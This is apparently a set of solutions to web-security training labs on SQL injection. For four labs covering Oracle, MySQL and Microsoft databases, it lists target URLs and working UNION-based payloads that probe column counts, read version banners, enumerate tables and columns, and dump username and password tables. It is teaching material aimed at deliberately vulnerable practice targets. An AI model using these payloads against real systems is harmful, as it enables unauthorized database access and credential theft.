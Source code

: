 # Examining the database

## SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Target URL:

```
https://ac411f5e1efd6df0807300ed00e30057.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' ORDER BY 1,2--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT banner, NULL FROM v$version--
```

Modified URL:

```
https://ac411f5e1efd6df0807300ed00e30057.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+banner,+NULL+FROM+v$version--
```

## SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

Target URL:

```
https://ac8b1f3e1ea6a87a804d17df00960002.web-security-academy.net/filter?category=Corporate+gifts
```

Solution:

```sql
' ORDER BY 1,2--
' UNION SELECT 'a','b'-- banner
' UNION SELECT @@version, NULL-- banner
```

Modified URL:

```
https://ac8b1f3e1ea6a87a804d17df00960002.web-security-academy.net/filter?category=Corporate+gifts'+UNION+SELECT+@@version,+NULL--+banner
```

## SQL injection attack, listing the database contents on non-Oracle databases

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

Target URL:

```
https://ac641fb21ef453a780df0e850024008d.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' ORDER BY 1,2--
' UNION SELECT table_name, table_schema FROM information_schema.tables--
' UNION SELECT table_name, column_name FROM information_schema.columns--
' UNION SELECT username_oqfoht, password_bhyjfz FROM users_bjmkrc--
```

Modified URL:

```
https://ac641fb21ef453a780df0e850024008d.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+username_oqfoht,+password_bhyjfz+FROM+users_bjmkrc--
```

## SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

Target URL:

```
https://acbd1f041f52bf1b802b011b007d00b2.web-security-academy.net/filter?category=Gifts
```

Solution:

```sql
' ORDER BY 1,2--
' UNION SELECT table_name, NULL FROM all_tables--
' UNION SELECT table_name, column_name FROM all_tab_columns WHERE table_name = 'USERS_VMNLRN'--
' UNION SELECT USERNAME_TXJCMV, PASSWORD_PQWHDR FROM USERS_VMNLRN--
```

Modified URL:

```
https://acbd1f041f52bf1b802b011b007d00b2.web-security-academy.net/filter?category=Gifts'+UNION+SELECT+USERNAME_TXJCMV,+PASSWORD_PQWHDR+FROM+USERS_VMNLRN--
```